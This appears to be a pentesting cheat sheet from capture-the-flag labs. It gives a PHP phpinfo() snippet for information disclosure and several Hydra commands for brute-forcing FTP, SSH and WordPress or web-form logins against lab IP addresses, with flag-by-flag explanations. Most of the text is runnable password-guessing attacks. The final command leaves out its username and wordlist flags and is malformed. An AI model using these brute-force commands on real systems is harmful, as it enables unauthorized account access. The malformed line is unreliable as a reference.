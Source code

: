 # PHP
```
# below php code returns a lot of information about the system (info.php):
<?php
phpinfo();

```


===============================================================================
# Hydra
```
hydra -l user -P passlist.txt ftp://10.10.210.242			# brute force ftp pass attack
hydra -l <username> -P <full path to pass> 10.10.210.242 -t 4 ssh	# ssh attack
-l	specifies the (SSH) username for login
-P	indicates a list of passwords
-t	sets the number of threads to spawn (four threads running in parallel)

hydra -l <username> -P <password_list> <target_ip_or_domain> http-post-form "<path_to_form>:<POST_parameters>:F=<failure_string>" -V		# web pass attak
hydra -l Elliot -P fsocity.dic 10.10.73.96 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Incorrect password" -V

-L			username list	
-l			one username
-P			password list
-p			one password
http-post-form		the type of the form is POST
<path>			the login page URL, for example, login.php
<login_credentials>	the username and password used to log in, for example, username=^USER^&password=^PASS^
<invalid_response>	part of the response when the login fails
-V			verbose output for every attempt

hydra -l <username> -P <wordlist> 10.10.210.242 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

The login page is only /, i.e., the main IP address.
The username is the form field where the username is entered
The specified username(s) will replace ^USER^
The password is the form field where the password is entered
The provided passwords will be replacing ^PASS^
Finally, F=incorrect is a string that appears in the server reply when the login fails


sudo hydra molly rockyou.txt 10.10.210.242 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```
